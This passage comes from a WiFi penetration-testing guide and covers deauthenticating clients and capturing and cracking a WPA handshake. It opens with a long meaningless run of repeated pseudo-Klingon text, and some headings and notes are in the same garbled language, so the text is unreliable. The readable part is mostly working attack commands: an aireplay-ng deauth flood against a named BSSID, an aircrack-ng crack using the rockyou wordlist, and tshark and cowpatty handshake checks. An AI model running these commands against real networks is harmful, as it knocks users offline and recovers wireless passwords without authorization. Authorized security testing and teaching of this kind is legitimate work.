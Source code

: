 vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlhutlhlaHbe'chugh 'ej vItlh
```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, may not work in all scenarios
```
_Note that as the client was deauthenticated it could try to connect to a different AP or, in other cases, to a different network._

Once in the `airodump-ng` appears some handshake information this means that the handshake was captured and you can stop listening:

![](<../../.gitbook/assets/image (172) (1).png>)

Once the handshake is captured you can **crack** it with `aircrack-ng`:
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```
### qarDaq 'e' yIlo'?

**aircrack**
```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```
**tshark** is a command-line tool that is part of the Wireshark network protocol analyzer. It allows you to capture and analyze network traffic in real-time. With tshark, you can capture packets from various network interfaces, apply filters to capture specific traffic, and save the captured data to a file for further analysis. It supports a wide range of protocols and provides detailed information about each packet, including source and destination IP addresses, port numbers, protocol types, and payload data. Tshark is a powerful tool for network troubleshooting, security analysis, and protocol development.
```bash
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```
[**cowpatty**](https://github.com/roobixx/cowpatty)
```
cowpatty -r psk-01.cap -s "ESSID" -f -
```
_ghItlh tool vItlhutlh uncompleted handshake ESSID qar completed, vaj vItlhutlh valid._
